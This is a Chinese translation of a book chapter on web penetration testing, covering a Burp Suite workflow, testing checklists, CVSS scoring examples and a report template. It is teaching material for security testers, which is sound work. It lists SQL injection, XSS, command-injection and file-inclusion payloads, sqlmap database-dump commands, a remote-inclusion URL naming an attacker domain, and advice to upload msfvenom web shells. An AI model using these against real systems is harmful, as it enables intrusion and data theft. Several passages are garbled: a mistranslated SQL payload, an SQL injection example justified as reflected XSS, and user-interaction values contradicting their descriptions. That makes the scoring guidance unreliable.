




# 第十章：网页入侵测试

本书的主要目的是讲解这个主题：**网页入侵测试**，也叫做**网页渗透测试**。你可能是因为这个主题而购买本书的，但你需要知道，网页渗透测试只是拼图的一部分。为了实现成功的完整渗透测试，你还需要包括威胁建模、源代码审查以及网络渗透测试。

第七章，*应用威胁建模*，应该已经为你提供了网页应用程序的架构概览，源代码审查也应该让你有了深入的理解。别忘了网络渗透测试，它可以揭示出有趣的漏洞。我设计这些章节的顺序是有原因的——反映现实生活中的场景。我写这本书并不是为了赚钱；事实上，我希望我的读者会想，*这本书的作者是谁？让我请他喝一杯！*

正如我之前所做的，我会尽量以最少的哲学讨论和最直接的内容来写这章。为此，让我们跳过所有的废话，开始这章精彩的内容，这一章将涵盖以下主题：

+   网页入侵测试工作流程

+   识别隐藏的网页内容

+   常见网页测试检查表

+   特殊页面测试检查表

+   报告

# 网页入侵测试工作流程

这是本章中最重要的部分，因为它将帮助你构建你的测试结构。一个典型的渗透测试员会面临的挑战是每个人都告诉他们参考 OWASP 的网页入侵测试检查表。但是，所有测试人员都会问自己一个大问题：*我从哪里开始？**我如何按照检查表进行？* 在进入具体步骤之前，让我们先看一下这个工作流程的图像，一张图胜过千言万语。我的工作流程基于一个代理工具：Burp Pro。更多细节请参见本书开头的第四章，*全面了解使用 Burp Suite*：



1.  第一步在前面的图中没有提到，它是网页服务器漏洞评估，我们在前一章讨论过。

1.  第二步是启动 Burp 并确保在代理选项卡中开启了拦截功能。接下来，分别浏览每一页，并通过代理的请求/响应详细信息检查内容。在浏览过程中，尝试与每一页进行交互，手动发送包含数据的表单 POST 请求。同时，尝试在搜索页面上使用搜索按钮。你明白了，别只是盲目点击。

1.  使用**Burp Spider**和**Burp 内容发现**来爬取页面。你也可以使用其他工具进行爬取，详情请见前一章的 HTTP 枚举部分。

1.  识别任何隐藏的内容，如`robots.txt`文件。我们将在本章稍后展示检查表（暂时先获取整体概念）。

1.  Burp 将列出在目标选项卡中找到的所有页面和文件。对于每个找到的页面，执行以下步骤。

1.  将每个请求发送到**Burp Scanner**以自动扫描问题。

1.  对于手动扫描，您需要问自己以下问题：*这是一个特殊页面吗？*（例如，登录页面；再次强调，不用担心。稍后我将列出所有细节。）

1.  如果是特殊页面，我们将按照该页面特定的清单进行检查。例如，如果是登录页面，我们将测试默认凭据。之后，我们将按照常见清单进行检查。

1.  如果不是特殊页面，我们将直接转到常见清单（检查注释、SQLi 输入测试等）。

1.  收集所有发现的漏洞并从中创建报告。

# 识别隐藏内容

实际上，您将问自己的一个重要问题是，*我需要找到什么？* 当进行 Web 入侵测试时，您需要一个可靠的清单作为参考。话虽如此，以下是您可以在工作流程中的此步骤中使用的清单：

1.  `Robots.txt` 文件

1.  备份文件（`.bak`、`.old`）

1.  其他有趣的文件（`.xls`、`.doc`、`.pdf`、`.txt`）

1.  管理 URL（例如，`phpmyadmin, wp-admin`）

1.  调试剩余页面和 URL

1.  是否使用 CMS？（WordPress）

如果在前述清单中找到任何项目，请检查其内容是否包含有价值的信息，包括：

+   个人信息

+   电子邮件地址

+   凭据

+   进入到另一个系统的入口点（例如，WordPress）

# 常见网页清单

这是 Web 入侵测试清单的核心。如前述工作流程中所述，您需要将此清单应用于每个页面，无论其性质如何。让我们深入了解：

1.  确定网页的**入口点**（指向后端的入口点；记住我们将在接下来的步骤中使用入口点），包括：

    +   URL

    +   头部（例如，cookie、URL 引用等）

    +   HTML 控件（下拉列表、单选按钮、隐藏输入、文本框等）

1.  检查使用 Burp Target 调用的所有后端或第三方 Web 服务和 Web API。

1.  强制将 URL 切换到**HTTP**模式，并查看是否有效，或者是否仍然保持在 HTTPS。

1.  尝试使页面**生成错误**；换句话说，错误消息是否透露给黑客线索？

1.  测试**逻辑漏洞**（例如，以零美元购买商品，或应用随机生成的折扣）。

1.  我们能够**无需身份验证**加载页面吗？在 Burp 中使用浏览器中的请求（除非页面不需要受保护）。

1.  尝试直接**调用管理员页面或资源**（例如，Web API 和图像），使用低级别权限。

1.  使用具有不同权限的**多个帐户进行测试**（普通用户与管理员）。使用 Burp 的比较站点地图功能来完成此任务。

1.  检查**头部安全最佳实践**，确保以下值存在：

    +   `X-frame-options`

    +   `X-content-type-options`

    +   `Strict-transport-security`

    +   `Content-security-policy`

    +   `X-permitted-cross-domain-policies`

    +   `X-XSS-protection:1;mode=block`

    +   `X-content-type-options:nosniff`

1.  通过将**cookie/sessionID**发送到 Burp Sequencer，分析其**随机性**。

1.  **暴力破解****cookie/sessionID**，通过将其发送到 Burp Intruder。选择 sniper 作为攻击类型，对于有效载荷类型，设置为 Character Frobber。

1.  确保每次登录后**会生成一个新的会话**。

1.  尝试**解码 cookie/sessionID**（或 ASP.NET ViewState）使用 Burp Decoder。

1.  **操控 cookie 参数**（例如，将`isAdmin=0`更改为`isAdmin=1`）。

1.  **会话超时的持续时间**是多少？

1.  检查**客户端源代码**（HTML 和 JavaScript），查找以下内容：

    +   HTML 注释

    +   调试遗留物

    +   安全逻辑缺陷

    +   隐藏输入控件的内容

    +   禁用控件（例如，`<input disabled="true" name="secret">`）

1.  检查所有经过身份验证的页面上是否**存在注销按钮**。

1.  **搜索 ID**（例如，`EmployeeID= 100`）在入口点，并使用 Burp Intruder 对其进行暴力破解。通常，这个测试会让你揭示其他用户的数据（例如两个具有相同权限的帐户）。

1.  尝试**访问资源**，这些资源是测试帐户无法查看的（例如图片、文档等）。

1.  使用 Burp CSRF POC 测试**CSRF**。通常，Burp 扫描器会自动检测到它。

1.  尝试**绕过每个具有客户端验证的 HTML 控件**（例如，`<form action='addItem.aspx' onsubmit='return validate(this)' >`）；检查服务器端是否也会验证它。

1.  使用模糊测试技术测试**SQL 注入**（使用 Burp Intruder 或 Repeater），并注入以下内容：

    +   `'`

    +   1; 等待延迟 `'0:15:0'--`

    +   使用 SQL map 自动化：

```
$sqlmap -u http://[victim IP] --crawl=1
```

1.  如果收到错误消息，或者执行了延迟操作，请使用**SQL map 导出数据库**（对于以下示例，我们已经确定`http://10.0.0.100/index.php?id=234`是一个候选项，并且数据库是 MySQL）：

```
$**sqlmap** **-u** http://10.0.0.100/index.php?id=234 --dbms=mysql --dump --threads=7 
```

1.  使用模糊测试技术测试**XSS**（使用 Burp Intruder 或 Repeater），并尝试注入以下内容：

    +   `<script> alert(1) </script>`

    +   `"><script>alert(1)</script>`

1.  使用模糊测试技术测试**命令注入**（使用 Burp Intruder 或 Repeater），并尝试注入以下内容（我将使用`whoami`命令，因为它在 Windows 和 Linux 上都存在）：

    +   `& whoami`

    +   `| whoami`

    +   `|| whoami`

    +   `; whoami`

1.  使用模糊测试技术测试本地文件包含（使用 Burp Intruder 或 Repeater），并尝试注入以下内容（尝试手动更改斜杠的数量以到达正确的目录）：

    +   `Linux: ../../../../etc/passwd`

    +   `Windows: ../../../../boot.ini`

1.  测试**远程文件包含**，通过注入另一个网站的 URL（例如，`http://[victim domain]/page.php?file=http://[attacker domain]/[infected page]`）。

OWASP 提供了一些手动 Web 入侵测试的项目，网址为 [`www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents`](https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents)。

# 特殊页面检查清单

在渗透测试过程中，你将遇到一些特定的页面，遇到这些页面时，你需要使用一个与之前不同的检查清单。请注意，在完成这一步后，你仍然需要使用通用的检查清单：

1.  **登录页面**（包括管理员页面）：

    1.  测试默认凭证（例如，`用户名= admin` 和 `密码= admin`）。

    1.  使用字典文件进行暴力破解凭证。

    1.  测试在多次失败尝试后是否会锁定账户，以防止 DoS 攻击。

    1.  是否使用 CAPTCHA？它可以防御自动化攻击。

    1.  使用 SQL 注入绕过身份验证。

    1.  它们是否使用记住密码功能？

1.  **注册页面**：

    1.  它们是否允许使用弱密码？

    1.  如果你用现有用户名注册，你能枚举用户吗？

    1.  测试是否存在弱且预生成的问题和答案（例如，最喜欢的颜色，容易通过暴力破解获得）。

1.  **重置/更改密码页面**：

    1.  测试用户是否能更改他人的密码（例如，更改管理员密码）。

    1.  检查密码更改和重置的工作流程。

    1.  用户在更改/重置后是否会收到确认电子邮件？

    1.  重置/更改密码时需要哪些信息？

    1.  新的临时密码（用于密码重置）的强度（或随机性）如何？

    1.  用户是否被要求在第一次登录后更改随机密码（用于密码重置）？

    1.  对于密码更改，用户在更改过程中是否需要输入旧密码？

1.  **上传页面**：

    1.  你能上传一个 Web shell 吗？（使用 `msfvenom`。）

    1.  如果应用程序允许上传可执行文件，你能上传一个后门吗？（使用 `msfvenom`。）

    1.  上传后，你能通过 URL 访问文件吗？你能看到其他用户的文件吗？

# 报告

在完成渗透测试活动后，你需要创建一份报告。人们通常会从工具（Burp、Nessus 等）自动生成的报告中复制粘贴内容。这正是业余人员与专业人员的区别：后者会确保验证误报并重新评估漏洞的评分。在本节中，我将展示如何评估你发现的漏洞评分，之后，我将分享一个模板，供你在未来的报告活动中参考。

# 通用漏洞评分系统 – CVSS

**通用漏洞评分系统**（**CVSS**）v3 在一段时间前发布，作为对 CVSS v2 的增强。一个大问题是：如果工具（例如 Burp）已经计算了分数，为什么还需要重新计算？让我给你举个例子。假设你发现了一个 SQL 注入漏洞，报告上显示评分很高。但实际上，测试的服务器已经与互联网断开，并且仅在特定 VLAN 上可用，而且存储在数据库中的数据并不机密。你还应该认为这个评分很高吗？当然不！这就是为什么你总是需要重新计算你的评分，以确保它与现实相匹配。

这里我使用的是 CVSS v3，但你也可以使用在线计算器：[`www.first.org/cvss/calculator/3.0`](https://www.first.org/cvss/calculator/3.0)。

CVSS 考虑了以下变量（你稍后会理解每个变量的含义）：

+   **攻击向量 (AV)**：网络 (N)，邻接 (A)，本地 (L)，物理 (P)

+   **攻击复杂性 (AC)**：低 (L)，高 (H)

+   **所需权限 (PR)**：无 (N)，低 (L)，高 (H)

+   **用户交互 (UI)**：无 (N)，需要 (R)

+   **范围 (S)**：未改变 (U)，已改变 (C)

+   **机密性 (C)**：无 (N)，低 (L)，高 (H)

+   **完整性 (I)**：无 (N)，低 (L)，高 (H)

+   **可用性 (A)**：无 (N)，低 (L)，高 (H)

有些人更喜欢使用 DREAD 方法来计算分数。这是个人的选择；最终，你需要确保你拥有一个准确的度量标准，能够帮助你的组织（或客户）。另外，你可以同时使用两种方法，虽然这会增加开销；但再次强调，没有优先选择。与团队讨论，找出他们最喜欢的方法。最终，你需要考虑到大多数工具使用**国家漏洞数据库**（**NVD**），它使用 CVSS 来计算分数。

我们如何判断一个 9 分的评分是高的或是关键的呢？你不需要再碰壁了；这是评分指南：**CVSS V3 基础评分**：0-10

| **严重性** | **基础评分范围** |
| --- | --- |
| 无 | 0 |
| 低 | 0.1 - 3.9 |
| 中等 |
| 高 | 7.0 - 8.9 |
| 危急 | 9.0 - 10.0 |

让我们看一个实际的例子，来计算两个漏洞的 CVSS 评分：

+   SQL 注入

+   反射型 XSS

该 web 服务器可以通过互联网访问，数据库存储了机密数据（客户个人信息）。

# 第一个例子 – SQL 注入

测试者通过注入单引号成功执行了 SQL 注入，后来他使用 SQL map 导出了整个数据库：

+   **AV:N**：攻击者将通过网络连接执行攻击。

+   **AC:L**：复杂度非常低，因为这是反射型 XSS（当我们在 URL 查询字符串中注入单引号`'`时，出现了错误信息）。

+   **PR:N**：无需特权。

+   **UI:R**：受害者不需要与有效载荷进行交互。

+   **S:C**：范围不仅仅是 Web 服务器；数据库也受到影响。

+   **C:H**：由于数据库包含机密数据。

+   **I:H**：黑客可以通过远程执行 SQL 命令更改数据库中的数据。

+   **A:H**：黑客可以删除所有记录，导致数据库不可用。



# 第二个案例–反射型 XSS

测试人员能够将 JavaScript 注入到 URL 参数中，浏览器执行了该脚本：

+   **AV:N**：黑客将通过网络连接执行攻击。

+   **AC:L**：复杂度非常低；黑客在所有浏览器上测试了 JavaScript，并且它能够正常运行。

+   **PR:N**：不需要权限。

+   **UI:N**：受害者需要通过社交工程攻击点击一个链接。

+   **S:C**：范围不仅限于 Web 服务器；受害者的浏览器也受到影响。

+   **C:L**：由于设置了`HttpOnly`标志，机密性影响较低，因为攻击者未能访问足够的 cookie 数据来劫持受害者的会话。

+   **I:L**：黑客可能只会在受害者的浏览器上下文中更改数据。

+   **A:N**：黑客无法影响服务器的可用性。



# 报告模板

在本节中，我将分享一个报告模板，您可以在完成渗透测试后使用（无论是 Web 入侵测试还是网络渗透测试）。

**封面页**：

`[公司名称] – [项目名称] – 安全测试报告`

**目录**：

```
History Log ........................................... [Page Number] Summary ................................................[Page Number] [Vulnerability Name]......................................[Page Number]
 Summary............................................[Page Number] CVSS Score .......................................[Page Number] Issue Description..................................[Page Number] Issue Remediation..................................[Page Number] Proof............................................ [Page Number]
```

**历史记录**：

| **版本** | **日期** | **修改者** | **简短描述** |
| --- | --- | --- | --- |
| 版本号 | [今天的日期] | [您的姓名] |  |

**总结**：

下表显示了在不同类别中识别的问题数量。根据其严重性，问题被分类为严重、高、中或低，使用 CVSS v3 方法论。这反映了每个问题对[公司名称]的可能影响：

| **严重性** | **漏洞描述** | **发生次数** |
| --- | --- | --- |
| 严重/高/中/低 | 漏洞名称（例如，反射型 XSS） | 1 到无限 |

[**漏洞名称**]（您将在渗透测试期间对所有发现重复这一部分。）

**总结**：

| **严重性**： | 严重/高/中/低 |
| --- | --- |
| **信心度**： | 确定/暂定 |
| **主机/URL**： | 目标 IP 地址/URL |

**CVSS 得分**：



**问题描述**：

[在这里，您需要描述漏洞的具体情况。]

**问题修复**：

[人们需要知道如何修复漏洞。在本节中，您将添加所有必要的信息，包括修复的技术细节。]

**证明**：

[在本节中，您需要添加所有从渗透测试中收集的证据；例如，截图、漏洞源代码、来自网页入侵测试的请求/响应—您明白的。]

# 总结

我希望你喜欢这一章。最重要的是，我希望它能帮助你快速高效地完成渗透测试任务。我在这一章中与你分享的工作流程是你成功的秘密武器；我在自己的渗透测试中也使用它。我尽力给你提供了一份检查清单，而没有过多的细节，因为你应该在本书的开头部分（特别是在第五章，*理解 Web 应用程序漏洞*）已经学到了这些。我以这种方式结构化本书是有原因的。

到目前为止，你已经了解了渗透测试的所有活动，从威胁建模到 Web 入侵测试。那么接下来是什么呢？既然你已经了解了所有内容，下一步是学习如何通过使用强大的编程语言 Python 来自动化渗透测试任务。
